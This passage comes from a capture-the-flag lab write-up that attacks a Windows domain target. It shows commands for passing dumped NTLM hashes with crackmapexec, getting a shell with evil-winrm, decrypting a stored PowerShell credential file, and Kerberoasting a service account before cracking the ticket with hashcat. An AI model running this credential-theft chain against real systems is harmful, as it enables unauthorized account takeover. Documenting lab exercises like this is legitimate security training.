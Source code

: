 we could possibly try to pass the hash.

let's create a proper list of all the hashes we got from the dump.

remove the unnecessery thing from the top of output from the impacket. and format hashs.txt like so :

    cat hashes.txt | cut -d ":" -f 4 > clean_hash.txt

now let's use crackmapexec to pass the hash

    crackmapexec smb <ip> -u lvetrova -H clean_hash.txt

![](https://cdn-images-1.medium.com/max/3840/1*kSplkoPEPGAoArmQlyulhg.png)

now as you can see we got the right hashes for lvetrova user.

now we would again try to login with hash using evil-winrm :

![](https://cdn-images-1.medium.com/max/3870/1*QIrqWOEDa_EeB-udF-YFIg.png)

now as you can see we got a successful hit with evil-winrm. on searching locally, we have found that there is no flag on Desktop, but in the user directory, we have found a file lvetrova.xml. that file was containing some encrypted password. on googling I have found a way to decrypt it.

![](https://cdn-images-1.medium.com/max/2010/1*ehetI-iLwL02lDWcuXt9iA.png)

so, the command we will be used to decrypt that XML file would be :

    $credential = Import-Clixml -Path lvetrova.xml
    $credential.GetNetworkCredential().password

![](https://cdn-images-1.medium.com/max/2672/1*vTB1hYlXUn9vl7yW90PwZg.png)

and we got the flag of that user !!!

now that we have a valid credential, we could possibly enumerate the host for privilege escalation vulnerability or can do kerbroasting.

![](https://cdn-images-1.medium.com/max/3808/1*4gvAT-WkBLo5iXY3QUhX2A.png)

we got one user on which we can perform kerberoasting

let's request the ticket.

![](https://cdn-images-1.medium.com/max/3876/1*uCY964D-MvBYKJMgTBH4yQ.png)

and we got the ticket for xyna1d3 user !!

let's try to crack it :

    hashcat.exe -m 13100 <ticket_hash> -O

![](https://cdn-images-1.medium.com/max/3782/1*7Blit-E415GXnmuuaFXmWQ.png)

and we got the password for that user !!

let's try to get an evil winrm shell with this password.
